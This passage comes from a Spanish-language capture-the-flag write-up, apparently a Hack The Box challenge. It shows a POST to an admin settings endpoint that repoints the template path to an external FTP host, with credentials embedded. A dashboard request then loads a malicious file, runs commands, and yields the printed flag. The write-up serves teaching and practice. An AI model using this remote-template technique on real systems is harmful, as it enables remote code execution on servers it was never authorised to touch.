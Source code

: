 Seteamos la ruta de los templates haciendo un POST request a /api/admin/appSettings con el siguiente body:

```json
{
  "template_path": "ftp://da192e7de042469196ddc45e20c9eb88:i2rMACU1fteQbrIEqh3zAqdNezrtTpKH@eu-central-1.sftpcloud.io"
}
```

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-18.png)

Hacemos una solicitud a dashboard.php para que cargue nuestro archivo malicioso y se ejecuten los comandos.

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-19.png)

Se obtiene la flag. 🎉

HTB{p41n_c4us3d_by_th3_usu4l_5u5p3ct_5f8e78373f521bac3069c1e39d487581}


# Eldoria Realms
